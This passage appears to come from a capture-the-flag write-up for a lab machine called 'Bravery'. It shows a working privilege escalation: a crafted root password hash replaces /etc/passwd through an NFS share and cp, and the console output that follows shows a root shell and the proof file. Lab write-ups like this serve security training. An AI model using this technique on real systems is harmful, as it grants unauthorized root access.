 With _cp_ we can change, for example, the root password in /etc/passwd. First, copy /etc/passwd to attacker machine, then change the password and finally upload via nfs.

```Console
(attacker machine)
# openssl passwd -1 -salt test 
Password: test 
$1$test$pi/xDtU5WFVRqYS6BMU8X/
# nano passwd
# head -n 1 passwd 
root:$1$test$pi/xDtU5WFVRqYS6BMU8X/:0:0:root:/root:/bin/bash

(victim machine)
bash-4.2$ cd /var/nfsshare/
bash-4.2$ ls
README.txt  discovery  enumeration  explore  itinerary  passwd  password.txt  qwertyuioplkjhgfdsazxcvbnm
bash-4.2$ cp passwd /etc/passwd
bash-4.2$ su root
Password: 
[root@bravery nfsshare]# id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:httpd_t:s0
[root@bravery nfsshare]# whoami
root
[root@bravery nfsshare]# cd /root/
[root@bravery ~]# ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  Videos  anaconda-ks.cfg  author-secret.txt  ossec-hids-2.8  proof.txt
[root@bravery ~]# cat proof.txt 
Congratulations on rooting BRAVERY. :)
```
